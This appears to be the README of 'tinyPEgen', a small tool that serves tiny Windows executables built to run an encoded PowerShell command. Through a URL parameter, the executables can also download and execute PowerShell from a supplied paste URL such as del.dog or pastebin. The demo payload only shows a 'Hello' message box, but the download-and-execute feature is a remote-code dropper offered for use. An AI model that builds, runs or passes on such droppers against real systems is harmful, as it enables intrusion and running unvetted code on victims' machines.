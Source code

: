 # tinyPEgen
shoutz to yuu/@netspooky and remy/@xen0bit

usage: `python3 serve.py ip port`

visiting ```http://ip:port/?c=powershell -e QQBkAGQALQBUAHkAcABlACAALQBBAHMAcwBlAG0AYgBsAHkATgBhAG0AZQAgAFAAcgBlAHMAZQBuAHQAYQB0AGkAbwBuAEMAbwByAGUALABQAHIAZQBzAGUAbgB0AGEAdABpAG8AbgBGAHIAYQBtAGUAdwBvAHIAawA7ACAAWwBTAHkAcwB0AGUAbQAuAFcAaQBuAGQAbwB3AHMALgBNAGUAcwBzAGEAZwBlAEIAbwB4AF0AOgA6AFMAaABvAHcAKAAnAEgAZQBsAGwAbwAnACkA```


visiting ```http://ip:port/?d=https://del.dog/raw/imenivexos``` will download and execute powershell using the URL you supply, from pastebin etc, specify raw url's

example commands will execute `Add-Type -AssemblyName PresentationCore,PresentationFramework; [System.Windows.MessageBox]::Show('Hello')`

as with the original by yuu, these binaries will be tiny, they will break things, they will run usually first time if you run them from cmd.exe or powershell.exe, they will take a few executes to work via click, giving error c00000005(i have no idea why, just exec from a command prompt) 
